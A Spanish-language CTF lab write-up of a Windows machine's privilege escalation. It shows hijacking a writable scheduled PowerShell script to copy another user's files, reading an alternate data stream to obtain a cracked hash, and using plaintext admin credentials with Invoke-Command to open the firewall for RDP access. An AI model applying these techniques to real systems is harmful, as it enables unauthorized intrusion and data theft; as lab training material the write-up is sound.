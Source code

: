 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami /priv
#Output

SEImpersonatePrivilege
```

Aqui ya vemos que podemos escalar privilegios con `JuicyPotatoe.exe` o `RotenPotatoe.exe` pero S4vitar nos
muestra aqui una via alternativa de escalar privilegios en esta maquina.

#### Secuestro de commandos para copiar los ficheros del usuario decoder.MINION {-}

```bash
dir c:\
dir c:\sysadmscripts
```

Vemos en `C:\` un directorio raro llamado `sysadmscript`. En este directorio, hay dos ficheros:

- c.ps1
- del_logs.bat

Analizando con el commando type lo que hacen estos script, vemos que el `del_logs.bat` llama al fichero `c.ps1` y lo
ejecuta con **powershell**. Aqui pensamos que hay una tarea que se ejecuta a intervalo regular de tiempo que ejecuta el fichero
`del_logs.bat`. Miramos si podemos modificar los ficheros.

```bash
cacls c:\sysadmscripts\del_logs.bat
cacls c:\sysadmscripts\c.ps1
```

Modificamos el Script para copiar los ficheros del usuario **decoder.Minion**

Aqui vemos que solo podemos modificar el fichero `c.ps1`

```bash
echo "dir C:\Users\decoder.MINION\Desktop\ > C:\Temp\decoder_desktop.txt" > C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\user.txt > C:\Temp\decoder_user.txt" >> C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\* > C:\Temp\" >> C:\Temp\c.ps1
copy C:\Temp\c.ps1 C:\sysadmscripts\c.ps1
```

Esperando un poco, nos copia los ficheros en `c:\temp`. Podemos visualizar la flag del usuario.
Tambien vemos un fichero `backup.zip` y si le checkeamos por **Aditionnal Data Streams** con el commando

#### Lectura de Additionnal Data Strems y crackeo de Hash {-}

```bash
Get-Item -Path C:\Temp\backup.zip -stream *
```

Vemos que tiene un stream llamado pass. Lo miramos con el commando `type`

```bash
type C:\Temp\backup.zip:pass
```

y encontramos un hash. Si lo passamos por [crackstation](https://crackstation.net/) nos da la contraseña.

#### Ejecucion de commandos como administrator con ScriptBlock {-}

Aqui el problema es que no tenemos connectividad con **smb** o otros puertos para connectarnos como root. La idea
aqui seria de ejecutar commandos como administrator para cambiar la reglas del Firewall.

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}

#Output
minion\administrator
```

Aqui vemos que podemos ejecutar commando como el usuario administrator. Vamos a por el cambio en el firewall

```bash
$user = 'minion\administrator'; $pw = '1234test'; $secpw = ConvertTo-SecureString $pw - AsPlainText -Force; $cred = New-Object \
System.Management.Automation.PSCredential $user, $secpw; Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock \
{New-NetFirewallRule -DisplayName setenso -RemoteAddress 10.10.14.8 -Direction inbound -Action Allow}

#Output
minion\administrator
```

Si ahora desde la maquina de attackante le hacemos un nmap para ver los puertos abiertos

```bash
nmap -sS --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.57
```

vemos que tenemos todo expuesto y como hay el puerto 3389 que es el puerto **RDP** ya nos podemos connectar con Remmina por ejemplo.

```r
knitr::include_graphics("images/minion-remina.png")
```

Y ya estamos en la maquina como administrator

```r
knitr::include_graphics("images/minion-pwned.png")
```